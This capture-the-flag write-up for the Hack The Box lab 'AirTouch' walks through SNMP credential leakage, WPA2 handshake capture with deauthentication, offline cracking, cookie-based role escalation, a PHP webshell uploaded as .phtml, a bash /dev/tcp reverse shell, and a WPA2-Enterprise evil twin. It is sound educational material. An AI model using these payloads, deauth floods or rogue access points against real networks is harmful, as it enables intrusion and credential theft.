

# HTB-AIRTOUCH

<figure><figcaption></figcaption></figure>

## Reconnaissance <a href="#reconnaissance" id="reconnaissance"></a>

First thing, rustscan to see what's alive on TCP.

```
┌──(sn0x㉿sn0x)-[~/HTB/AirTouch]
└─$ rustscan -a 10.129.244.98 blah blah
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11
```

Only SSH on TCP. That's... actually a hint that the interesting stuff is elsewhere. The TTL came back as 62 instead of the usual 63/64 you'd expect for Linux one hop away that extra -1 means we're probably talking to a container sitting behind some NAT, not the box directly.

<figure><figcaption></figcaption></figure>

One port on TCP isn't much to go on. Time to check UDP.

```
┌──(sn0x㉿sn0x)-[~/HTB/AirTouch]
└─$ sudo nmap -sU --top-ports 1000 --min-rate 5000 --max-retries 1 -T4 -Pn 10.129.244.98
```

```
PORT    STATE SERVICE
161/udp open  snmp
| snmp-sysdescr: "The default consultant password is: RxBlZhLmOkacNWScmZ6D (change it after use it)"
```

SNMP on 161. And it just... handed us a password in the system description. That's the box telling us: hey, start here. The sysDescr field in SNMP is just a freeform text string whoever set this up put credentials in it intentionally as the entry point.

<figure><figcaption></figcaption></figure>

If you don't want to wait on nmap UDP (it's genuinely painful, like 30+ minutes), there's a faster option:

```
┌──(sn0x㉿sn0x)-[~/HTB/AirTouch]
└─$ udpx -t 10.129.244.98
```

UDPX uses protocol-specific payloads to actually elicit responses from UDP services finishes in under 30 seconds. Much better for CTF time.

Either way, let's dump everything from SNMP to make sure we're not missing anything:

```
┌──(sn0x㉿sn0x)-[~/HTB/AirTouch]
└─$ snmpwalk -v 2c -c public 10.129.244.98
```

```
SNMPv2-MIB::sysDescr.0 = STRING: "The default consultant password is: RxBlZhLmOkacNWScmZ6D (change it after use it)"
SNMPv2-MIB::sysContact.0 = STRING: admin@AirTouch.htb
SNMPv2-MIB::sysName.0 = STRING: Consultant
SNMPv2-MIB::sysLocation.0 = STRING: "Consultant pc"
```

The community string `public` works fine standard default. The only juicy thing here is that password. Let's use it.

***

## Shell as consultant

### AirTouch-Consultant Container

```
┌──(sn0x㉿sn0x)-[~/HTB/AirTouch]
└─$ sshpass -p RxBlZhLmOkacNWScmZ6D ssh consultant@10.129.244.98
```

```
consultant@AirTouch-Consultant:~$
```

We're in. And we're clearly inside a Docker container the `eth0@if29` notation in `ip addr` is a dead giveaway (veth pair, one side inside the container, the other end at interface index 29 on the host).

The home directory has two PNG files. Let's grab them:

```
┌──(sn0x㉿sn0x)-[~/HTB/AirTouch]
└─$ sshpass -p RxBlZhLmOkacNWScmZ6D scp consultant@10.129.244.98:~/*.png .
```

These turn out to be network diagrams one handdrawn, one computer-generated showing the full environment architecture. This is the map for the rest of the box. Three VLANs:

| VLAN       | SSID              | Subnet         |
| ---------- | ----------------- | -------------- |
| Consultant | N/A (wired)       | 172.20.1.0/24  |
| Tablets    | AirTouch-Internet | 192.168.3.0/24 |
| Corporate  | AirTouch-Office   | 10.10.10.0/24  |

We're on Consultant at 172.20.1.2. We need to get into Tablets, then Corp. The diagrams also show 7 wireless interfaces on this machine  all down by default  and tools like `eaphammer` in `/root`. The box is basically telling us the attack path.

### Privesc to root on Consultant

```
consultant@AirTouch-Consultant:~$ sudo -l
```

```
User consultant may run the following commands on AirTouch-Consultant:
    (ALL) NOPASSWD: ALL
```

Full sudo without password. This is intentional the consultant machine is your "attack platform" for the wireless stuff. Just `sudo -i` and we're root.

```
consultant@AirTouch-Consultant:~$ sudo -i
root@AirTouch-Consultant:~#
```

***

## Wireless Recon&#x20;

### Scanning the Air

Now as root we have all 7 wireless interfaces available. Bring one up and scan:

<figure><figcaption></figcaption></figure>

```
root@AirTouch-Consultant:~# ip link set wlan0 up
root@AirTouch-Consultant:~# iwlist wlan0 scan | grep -e ESSID -e Frequency -e Address
```

```
Cell 04 - Address: F0:9F:C2:A3:F1:A7
          Frequency:2.437 GHz (Channel 6)
          ESSID:"AirTouch-Internet"
Cell 06 - Address: AC:8B:A9:AA:3F:D2
          Frequency:5.22 GHz (Channel 44)
          ESSID:"AirTouch-Office"
Cell 07 - Address: AC:8B:A9:F3:A1:13
          Frequency:5.22 GHz (Channel 44)
          ESSID:"AirTouch-Office"
```

There's also `vodafoneFB6N`, `MOVISTAR_FG68`, `WIFI-JOHN`, `MiFibra-24-D4VY` those are just decoy noise networks, out of scope.

What matters: `AirTouch-Internet` on ch6 uses WPA2-PSK (crackable). `AirTouch-Office` on ch44 uses WPA2 with `802.1x` auth (enterprise needs certificates and cred capture).

Two different attack paths for two different networks.

***

### Cracking AirTouch-Internet (WPA2-PSK)

The plan here: put an interface into monitor mode, capture traffic on ch6, deauth the connected client to force a re-handshake, capture the 4-way handshake, crack offline.

<figure><figcaption></figcaption></figure>

This works because WPA2-PSK's 4-way handshake contains enough information to verify password guesses offline without ever touching the AP again. The PSK is mathematically derived into a PTK using PBKDF2, and the handshake lets us verify our guess.

<figure><figcaption></figcaption></figure>

```
root@AirTouch-Consultant:~# airmon-ng start wlan0
```

Now capture, targeting just the AirTouch-Internet BSSID on ch6:

```
root@AirTouch-Consultant:~# airodump-ng wlan0mon --channel 6 --bssid F0:9F:C2:A3:F1:A7 -w /tmp/airtouch_capture
```

We can see client `28:6C:07:FE:A3:22` connected. In a second terminal, deauth it:

```
root@AirTouch-Consultant:~# aireplay-ng --deauth 5 -a F0:9F:C2:A3:F1:A7 -c 28:6C:07:FE:A3:22 wlan0mon
```

```
01:55:47  Sending 64 directed DeAuth (code 7). STMAC: [28:6C:07:FE:A3:22] [ 0| 0 ACKs]
[...5 rounds...]
```

Deauth frames tell the client "you've been disconnected"  it reconnects automatically, which triggers the 4-way handshake. airodump picks it up. Ctrl-C the capture.

Transfer the `.cap` file back to our machine:

```
┌──(sn0x㉿sn0x)-[~/HTB/AirTouch]
└─$ sshpass -p RxBlZhLmOkacNWScmZ6D scp consultant@10.129.244.98:/tmp/airtouch_capture-01.cap .
```

## Aircrack-ng - Method 1 &#x20;

```
┌──(sn0x㉿sn0x)-[~/HTB/AirTouch]
└─$ aircrack-ng -w /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt ./airtouch_capture-01.cap
```

```
KEY FOUND! [ challenge ]
```

## Cowpatty (slower but more verbose) - Method 2&#x20;

```
┌──(sn0x㉿sn0x)-[~/HTB/AirTouch]
└─$ cowpatty -r airtouch_capture-01.cap -f /usr/share/wordlists/rockyou.txt -s "AirTouch-Internet"
```

```
The PSK is "challenge".
7871 passphrases tested in 13.33 seconds
```

## Decrypt traffic instead of cracking - Method 3&#x20;

Alternatively, if you already know the PSK (or find it another way), you can decrypt the existing captured packets directly:

```
┌──(sn0x㉿sn0x)-[~/HTB/AirTouch]
└─$ airdecap-ng -p 'challenge' -b F0:9F:C2:A3:F1:A7 -e 'AirTouch-Internet' airtouch_capture-01.cap
```

Then `strings` on the decrypted output reveals plaintext HTTP traffic  including login credentials and session cookies from whoever was using the network. We'll see why this matters in a second.

***

### Connecting to AirTouch-Internet

```
root@AirTouch-Consultant:~# wpa_passphrase AirTouch-Internet 'challenge' > /tmp/airtouch-internet.conf
root@AirTouch-Consultant:~# wpa_supplicant -B -i wlan2 -c /tmp/airtouch-internet.conf
root@AirTouch-Consultant:~# dhclient -v wlan2
```

```
DHCPACK of 192.168.3.84 from 192.168.3.1
bound to 192.168.3.84
```

We're on the Tablets network at `192.168.3.84`. Quick nmap of the subnet:

```
root@AirTouch-Consultant:~# nmap 192.168.3.0/24
```

```
192.168.3.1 — ssh(22), domain(53), http(80)
192.168.3.84 — ssh(22)  [that's us]
```

The gateway at `192.168.3.1` has a web interface. Its MAC (`F0:9F:C2`) is Ubiquiti range it's the AP acting as a router with a management page.

***

## AirTouch-AP-PSK

### Router Web Interface

Set up an SSH SOCKS proxy to tunnel browser traffic through:

```
┌──(sn0x㉿sn0x)-[~/HTB/AirTouch]
└─$ ssh -D 1080 -N consultant@10.129.244.98
```

Configure your browser (or Burp) to use `SOCKS5 127.0.0.1:1080`. Now hit `http://192.168.3.1`  it redirects to `/login.php`.

<figure><figcaption></figcaption></figure>

## Direct login with manager creds - Method 1&#x20;

If you used `airdecap-ng` earlier and ran `strings` on the decrypted capture, you'd have seen:

```
Username=manager&Password=2wLFYNh4TSTgA5sNgT4&Submit=Login
```

Plus a valid session cookie. Manager creds from the decrypted traffic. Log in directly.

## Replay session cookie from traffic - Method 2&#x20;

The decrypted traffic also contains:

```
Cookie: PHPSESSID=12mjvie855rrg848g04ipd1a46; UserRole=user
```

Just shove this into your browser's dev tools under Storage > Cookies for the site and reload. No need to even know the password.

Both work because HTTP is unencrypted anyone on the network with the PSK can read everything. That's the whole point of capturing and decrypting the traffic.

#### Cookie-Based Role Escalation

After logging in as manager (or replaying the cookie), the page looks... mostly empty with a `UserRole=user` cookie.

Here's the thing: the server sets `UserRole` as a cookie and then just trusts whatever value comes back in requests. There's no server-side validation tying the role to the session. You can just edit the cookie in dev tools:

`UserRole: user` → `UserRole: admin`

Reload the page and suddenly there's a file upload form that wasn't there before. The authorization check is happening entirely client-side (checking the cookie value in PHP and rendering different HTML) without any cryptographic binding to the session. Classic client-side trust issue.

This is why it's exploitable: `setcookie('UserRole', $logins[$Username]['role'], ...)` just writes the role to a cookie. Cookies are fully client-controlled. Anyone can change them.

#### Directory Brute Force

```
┌──(sn0x㉿sn0x)-[~/HTB/AirTouch]
└─$ feroxbuster -u http://192.168.3.1 -x php --proxy socks5://127.0.0.1:1080
```

```
302 → /index.php → login.php
200 → /login.php
302 → /lab.php → login.php
301 → /uploads → /uploads/
```

`/uploads/` exists but returns 403 (directory listing off). Individual files inside are accessible if you know the name which matters for our webshell in a second.

***

## File Upload&#x20;

<figure><figcaption></figcaption></figure>

### PHP Filter Bypass

With `UserRole=admin` cookie set, the upload form appears. Try uploading a PHP webshell:

```php
<?php system($_REQUEST['cmd']); ?>
```

Save as `shell.php` rejected. The server blocks `.php` files.

<figure><figcaption></figcaption></figure>

But PHP can execute code from a bunch of other extensions depending on Apache/PHP config. The filter here is doing a naive extension check, likely something like:

```php
if (in_array($ext, ['php', 'php3', 'php4', 'php5', 'html'])) { // block }
```

It's checking a hardcoded list and `.phtml` isn't on it. But Apache's default config maps `.phtml` to the PHP handler — so the file gets executed as PHP when requested.

Upload `shell.phtml`:

```
┌──(sn0x㉿sn0x)-[~/HTB/AirTouch]
└─$ proxychains curl http://192.168.3.1/uploads/shell.phtml?cmd=id
```

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

RCE confirmed. Other bypasses that would also work here: `.php7`, `.phar` (one of the other writeups used `.phar` specifically and it worked too — the block list just wasn't comprehensive enough).

#### Getting a Shell

The router (`192.168.3.1`) can't reach back to our attacker box directly — it has no route to the internet. But it can reach the Consultant container at `192.168.3.84`. Start a listener there:

```
root@AirTouch-Consultant:~# nc -lnvp 443
```

Trigger reverse shell:

```
┌──(sn0x㉿sn0x)-[~/HTB/AirTouch]
└─$ proxychains curl http://192.168.3.1/uploads/shell.phtml --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/192.168.3.84/443 0>&1"'
```

```
root@AirTouch-Consultant:~# nc -lnvp 443
Connection received on 192.168.3.1 40112
www-data@AirTouch-AP-PSK:/var/www/html/uploads$
```

Upgrade the shell:

```
www-data@AirTouch-AP-PSK:/var/www/html/uploads$ script /dev/null -c bash
^Z
stty raw -echo; fg
reset
Terminal type? screen
```

***

## Shell as root - AirTouch-AP-PSK

Source review on `/var/www/html/login.php` reveals hardcoded creds:

```php
$logins = array(
    /*'user' => array('password' => 'JunDRDZKHDnpkpDDvay', 'role' => 'admin'),*/
    'manager' => array('password' => '2wLFYNh4TSTgA5sNgT4', 'role' => 'user')
);
```

The `user` entry is commented out, but the password is still there in plaintext. Try it:

```
www-data@AirTouch-AP-PSK:/$ su user -
Password: JunDRDZKHDnpkpDDvay
user@AirTouch-AP-PSK:/$
```

Or over SSH if you prefer:

```
┌──(sn0x㉿sn0x)-[~/HTB/AirTouch]
└─$ proxychains sshpass -p JunDRDZKHDnpkpDDvay ssh user@192.168.3.1
```

Same sudo situation as before:

```
user@AirTouch-AP-PSK:~$ sudo -i
root@AirTouch-AP-PSK:~#
```

***

## Pivoting to AirTouch-Office

<figure><figcaption></figcaption></figure>


[pivoting](../../../../red-team-notes/pivoting/)


In `/root` on the PSK AP:

```
root@AirTouch-AP-PSK:~# cat send_certs.sh
```

```bash
REMOTE_USER="remote"
REMOTE_PASSWORD="xGgWEwqUpfoOVsLeROeG"
sshpass -p "$REMOTE_PASSWORD" scp -r /root/certs-backup/ remote@10.10.10.1:~/certs-backup/
```

Credentials for `remote@10.10.10.1` the corporate AP. But this box has no route to 10.10.10.0/24. The script exists because it was presumably run from here at some point to sync certs. We can't SSH there yet.

What we CAN do grab the certificates from `/root/certs-backup/`:

```
root@AirTouch-AP-PSK:~# ls certs-backup/
ca.crt  ca.conf  server.crt  server.csr  server.ext  server.key  server.conf
```

These are the CA cert and server cert/key used for the `AirTouch-Office` WPA2-Enterprise network. `ca.key` is missing so we can't sign new client certs. But we don't need to. Having the server cert and key means we can impersonate the real AP and get clients to authenticate to us instead.

Transfer everything to the Consultant container:

```
root@AirTouch-AP-PSK:~# scp certs-backup/* consultant@192.168.3.84:~/
```

***

## Evil Twin Attack - Capturing PEAP-MSCHAPv2

<figure><figcaption></figcaption></figure>

Here's the attack flow: `AirTouch-Office` uses WPA2-Enterprise with PEAP-MSCHAPv2. When a client connects, the AP presents its TLS certificate to establish a tunnel, then the client sends credentials inside that tunnel.

If we stand up a fake AP with the real certificate, clients will trust it (the cert checks out), connect, and send us their credentials inside the TLS tunnel we control.

<figure><figcaption></figcaption></figure>

The reason this works: WPA2-Enterprise client-side certificate validation is often misconfigured. Clients are supposed to pin the CA certificate and reject unknown CAs, but many just... don't, or they're configured to accept any cert from the trusted system CA store. By having the actual server cert, we bypass this entirely we're not using a fake cert, we're using the real one.

#### Import certs into eaphammer

```
root@AirTouch-Consultant:~/eaphammer# ./eaphammer --cert-wizard import \
    --server-cert /home/consultant/server.crt \
    --ca-cert /home/consultant/ca.crt \
    --private-key /home/consultant/server.key
```

```
[CW] Private key and full certificate chain written to: /root/eaphammer/certs/server/AirTouch CA.pem
[CW] Activating full certificate chain...
[CW] Complete!
```

Get the AirTouch-Office AP details (from earlier scan):

* BSSID: `AC:8B:A9:AA:3F:D2` (or `AC:8B:A9:F3:A1:13`)
* Channel: 44 (5GHz)
* ESSID: `AirTouch-Office`

#### Start the Evil Twin

```
root@AirTouch-Consultant:~/eaphammer# ./eaphammer -i wlan4 --auth wpa-eap --essid AirTouch-Office
```

```
wlan4: AP-ENABLED
Press enter to quit...
```

Now we need clients to disconnect from the real AP and connect to ours. In another terminal, set up a monitor interface and deauth broadcast from both real APs:

```
root@AirTouch-Consultant:~# iw dev wlan5 set type monitor
root@AirTouch-Consultant:~# ip link set wlan5 up
root@AirTouch-Consultant:~# iw dev wlan5 set channel 44
root@AirTouch-Consultant:~# aireplay-ng -0 10 -a AC:8B:A9:AA:3F:D2 wlan5
root@AirTouch-Consultant:~# aireplay-ng -0 10 -a AC:8B:A9:F3:A1:13 wlan5
```

Deauth frames kick clients off the real APs. They scan for `AirTouch-Office` and find our rogue one first (or in addition). They connect and eaphammer captures the auth:

```
mschapv2: Sun Apr 12 20:59:32 2026
     domain\username:     AirTouch\r4ulcl
     username:            r4ulcl
     challenge:           a2:3d:68:e5:dc:dc:cb:a1
     response:            34:ee:c9:f8:ba:ce:de:bb:c8:2e:e2:b8:73:d5:96:df...

     hashcat NETNTLM: r4ulcl::::34eec9f8bacedebbc82ee2b873d596dfde8920a5c73d9fed:a23d68e5dcdccba1
```

#### Crack the Hash

The PEAP-MSCHAPv2 challenge/response is mathematically identical to NetNTLMv1. hashcat mode 5500:

```
┌──(sn0x㉿sn0x)-[~/HTB/AirTouch]
└─$ hashcat -m 5500 ./AirTouch-Office.hash /usr/share/wordlists/rockyou.txt
```

Mode 5500 is NetNTLMv1 the MSCHAPv2 response structure is a DES-based challenge/response using the NT hash, same as legacy Windows authentication. hashcat detects this automatically if you don't specify the mode.

```
r4ulcl::::a1c830700769a667fc2b24c161430d902ee9e192a683d06f:180b044bd39a62ec:laboratory
```

Password: `laboratory`

***

### Connecting to AirTouch-Office

```
root@AirTouch-Consultant:~# cat > airtouch-office.conf << EOF
network={
    ssid="AirTouch-Office"
    key_mgmt=WPA-EAP
    eap=PEAP
    identity="AirTouch\r4ulcl"
    password="laboratory"
    phase1="peaplabel=0"
    phase2="auth=MSCHAPV2"
}
EOF

root@AirTouch-Consultant:~# wpa_supplicant -i wlan6 -c ./airtouch-office.conf &
root@AirTouch-Consultant:~# dhclient -v wlan6
```

```
DHCPOFFER of 10.10.10.38 from 10.10.10.1
bound to 10.10.10.38
```

On the corporate network at `10.10.10.38`. Now we can use the creds from `send_certs.sh`:

```
┌──(sn0x㉿sn0x)-[~/HTB/AirTouch]
└─$ proxychains sshpass -p xGgWEwqUpfoOVsLeROeG ssh remote@10.10.10.1
```

```
remote@AirTouch-AP-MGT:~$
```

***

## Shell as root - AirTouch-AP-MGT

`remote` can't sudo. But poking around:

```
remote@AirTouch-AP-MGT:/$ cat /etc/hostapd/hostapd_wpe.eap_user
```

```
*               PEAP,TTLS,TLS,FAST
"AirTouch\r4ulcl"    MSCHAPV2    "laboratory" [2]
"admin"              MSCHAPV2    "xMJpzXt4D9ouMuL3JJsMriF7KZozm7" [2]
```

This is the hostapd EAP user database it stores credentials for 802.1x authentication in plaintext. The `admin` user on the AP has their Wi-Fi password stored here, and they reused it as their system account password.

```
remote@AirTouch-AP-MGT:/$ su - admin
Password: xMJpzXt4D9ouMuL3JJsMriF7KZozm7
admin@AirTouch-AP-MGT:~$
```

Or directly via SSH:

```
┌──(sn0x㉿sn0x)-[~/HTB/AirTouch]
└─$ proxychains sshpass -p xMJpzXt4D9ouMuL3JJsMriF7KZozm7 ssh admin@10.10.10.1
```

Same pattern one more time:

```
admin@AirTouch-AP-MGT:~$ sudo -i
root@AirTouch-AP-MGT:~# cat root.txt
```

***

### Attack Chain

```
[Public Internet]
        |
        | SSH:22 / SNMP UDP:161 (NAT)
        v
[AirTouch-Consultant Container] (172.20.1.2)
  - SNMP sysDescr leaks password "RxBlZhLmOkacNWScmZ6D"
  - SSH in as consultant → sudo NOPASSWD:ALL → root
  - 7x wireless interfaces available
        |
        | airmon-ng → airodump-ng → deauth → 4-way handshake capture
        | aircrack-ng/cowpatty → PSK = "challenge"
        | wpa_supplicant + dhclient → 192.168.3.84
        v
[AirTouch-Internet VLAN] (192.168.3.0/24)
  - airdecap-ng decrypts captured traffic
  - HTTP plaintext reveals manager:2wLFYNh4TSTgA5sNgT4 + session cookie
        |
        | Login to http://192.168.3.1/
        | UserRole cookie: user → admin (client-side only, no server validation)
        | File upload → .phtml bypass → RCE as www-data
        | login.php source → user:JunDRDZKHDnpkpDDvay
        | su user → sudo NOPASSWD:ALL → root
        v
[AirTouch-AP-PSK] (192.168.3.1)
  - /root/send_certs.sh → remote:xGgWEwqUpfoOVsLeROeG @ 10.10.10.1
  - /root/certs-backup/ → ca.crt, server.crt, server.key
  - [user.txt HERE]
        |
        | eaphammer --cert-wizard import (real certs)
        | Evil Twin AP (wlan4) impersonating AirTouch-Office
        | Deauth real AP clients (aireplay-ng broadcast)
        | Client connects to rogue AP → PEAP-MSCHAPv2 captured
        | hashcat -m 5500 → r4ulcl:laboratory
        | wpa_supplicant PEAP → dhclient → 10.10.10.38
        v
[AirTouch-Office Corp VLAN] (10.10.10.0/24)
  - SSH remote@10.10.10.1 (creds from send_certs.sh)
  - /etc/hostapd/hostapd_wpe.eap_user → admin:xMJpzXt4D9ouMuL3JJsMriF7KZozm7
  - su admin → sudo NOPASSWD:ALL → root
        v
[AirTouch-AP-MGT] (10.10.10.1)
  - [root.txt HERE]
```

***

### Techniques I Used

| Technique                                           | Where Used                                                    |
| --------------------------------------------------- | ------------------------------------------------------------- |
| SNMP Enumeration (community string: public)         | Initial access — password in sysDescr                         |
| WPA2-PSK Handshake Capture + Deauth                 | Breaking into AirTouch-Internet                               |
| Offline WPA2 PSK Cracking (aircrack-ng / cowpatty)  | Recovering "challenge" from handshake                         |
| 802.11 Traffic Decryption (airdecap-ng)             | Recovering HTTP creds + session cookies from captured traffic |
| SOCKS Proxy Tunneling (SSH -D)                      | Accessing 192.168.3.1 web interface through Burp/browser      |
| Client-Side Authorization Bypass (cookie tampering) | UserRole cookie: user → admin                                 |
| PHP Extension Filter Bypass (.phtml)                | Uploading webshell past blocklist                             |
| Hardcoded Credentials in Source Code                | user account password in login.php                            |
| WPA2-Enterprise Evil Twin (eaphammer)               | Impersonating AirTouch-Office with real server cert           |
| PEAP-MSCHAPv2 Credential Capture + Crack            | Getting r4ulcl:laboratory (hashcat mode 5500 / NetNTLMv1)     |
| EAP User File Credential Leak                       | admin password in hostapd\_wpe.eap\_user                      |
| Sudo NOPASSWD:ALL Escalation                        | Root on all three containers                                  |
| Credential Reuse                                    | EAP password = system account password (admin)                |
